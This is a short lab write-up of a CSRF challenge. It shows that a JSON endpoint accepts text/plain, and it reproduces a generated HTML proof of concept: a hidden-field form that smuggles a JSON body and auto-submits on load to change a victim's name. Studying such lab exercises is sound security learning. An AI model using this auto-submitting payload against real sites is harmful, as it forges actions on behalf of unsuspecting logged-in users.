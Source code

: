 If we change our name the next request is sent.

![csrfreq.png](images/csrfreq.png)

The challenge says we can send "text/plain" as Content-Type, so we validate that.

![csrfplain.png](images/csrfplain.png)

Now we can use the community script [json_csrf_poc_generator](https://github.com/zaproxy/community-scripts/blob/main/targeted/json_csrf_poc_generator.js), to use it we right click and select "Invoke with Script..." -> json_csrf_poc_generator.py, this will generate the next page:

```html
<!DOCTYPE html>
<head>
 <title>CSRF POC</title>
</head>
<body>
<form action="https://labs.cai.do/csrfContentType.php" id="formid" method="post" enctype="text/plain">
<input type ='hidden' name='{"name":"hacked","ignore_me":"' value='something"}'>
</form>
<script>document.getElementById('formid').submit();</script>
</body></html>
```

We can see that the HTML adds the value `,"ignore_me":"' value='something"}` to the request, this is because the browser expects to send a POST form as a request, not a JSON, if the request does not look like a POST form in the browser will try to format it, and that would send an invalid request.
Now we change the value of "name" and host the page using python and open it on our browser. After opening it we see that it opens the CSRF site.

![csrfpoc.png](images/csrfpoc.png)
